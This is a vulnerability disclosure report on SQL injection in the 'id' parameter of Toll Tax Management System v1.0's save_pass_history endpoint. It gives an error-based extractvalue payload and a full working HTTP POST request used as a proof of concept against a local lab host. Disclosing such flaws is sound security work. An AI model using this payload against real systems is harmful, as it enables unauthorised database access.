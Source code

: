 # toll-tax-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ttms/classes/Master.php?f=save_pass_history

Vulnerability location:/ttms/classes/Master.php?f=save_pass_history, id

[+] Payload: 3'and/**/extractvalue(1,concat(char(126),database()))and' ---> id

Tested on Windows 10, XAMPP

```
POST /ttms/classes/Master.php?f=save_pass_history HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------14308677256421863342182671516
Content-Length: 567
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ttms/admin/?page=pass_history/manage_pass_history&id=3
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="id"

3'and/**/extractvalue(1,concat(char(126),database()))and'
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="pass_id"

2
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="toll_id"

2
-----------------------------14308677256421863342182671516
Content-Disposition: form-data; name="cost"

100.00
-----------------------------14308677256421863342182671516--

```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/toll-tax-management-system/sql.gif?raw=true)

